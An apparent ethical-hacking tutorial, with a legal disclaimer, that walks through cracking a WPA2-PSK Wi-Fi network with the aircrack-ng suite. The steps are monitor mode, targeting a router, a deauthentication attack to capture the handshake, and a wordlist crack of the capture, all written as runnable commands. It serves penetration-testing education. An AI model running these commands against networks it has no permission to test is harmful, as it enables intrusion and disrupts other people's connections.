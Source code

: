 Tutorial on hacking wireless access points to include capture handshakes and crackings .cap files.

----------

Legal Usage: The information provided by execute@will is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “ethical hacker” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.

By continued reading, you acknowledge the aforementioned user risks/responsibilities.

----------

Based off TheCyberMentor amazing Udemy course available at [https://www.udemy.com/course/practical-ethical-hacking/](https://www.udemy.com/course/practical-ethical-hacking/)

**Types Wireless Security:**
WPA2 Pre Share Key (PSK) - “Everyday” seen security across wireless networks
WPA2 Enterprise - Utilize Radius Servers/Credentials (advanced environments)

**Evaluating Networks:**

- Evaluating strength of PSK
- Reviewing nearby network
- Assessing guest networks
- Checking network access

Tools used for Assessments:

- Wireless Cards - Alfa AWUD036NH
- Router
- Laptop

**The Process / Methodology**

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578149236145_image.png)



## Attacking Wireless Networks


- Relys on poor password on wireless networks
- After a WPA hand shake
## Setup Wireless Card on Kali
    iwconfig

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578149482736_image.png)


 
 **Place wireless card into monitor mode**

- kill process that would interfere with the wireless network
    airmong-ng check kill

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578149575514_image.png)



**Start monitor mode**

    airmon-ng start wlan0

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578149735588_image.png)


changing modes from `wlan0`  to `[phy1]wlan0mon`.

confirm with `iwconfig`

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578149801362_image.png)



**Searching nearby area of wifi networks**

    airodump-ng wlan0mon

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578150001126_image.png)


*devices are populating in the list.*


- The lower the PWR is the closer you are to the device

`ctrl+c` as we identifed the TP-Link to attack:

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578150088860_image.png)


**Narrow the wifi network down via airodump-ng**

    airodump-ng -c 6 --bssid 50:C7:BF:8A:00:73 -w capture wlan0mon

-w = name of file

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578150218295_image.png)


if this was a larger network we would see more devices. 

**Performing a DEAUTH attack**

- within a new window
- might need to run the attack several times to get the deauth
    aireplay-ng -0 1 -a 50:C7:BF:8A:00:73 -c 3C:F0:11:22:DB:E3 wlan0mon

-a = Wifi mac address
-c = Station (client)

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578150477336_image.png)


Beacon rate began to increase which then led to the “WPA handshake”

**Viewing captured data** 

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578150613088_image.png)


**Cracking the captured data**

    aircrack-ng -w wordlist.txt -b 50:C7:BF:8A:00:73 capture-02.cap

-b = MAC address of target router

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578150767089_image.png)


*Passphrase was discovered quite quickly in this case.*

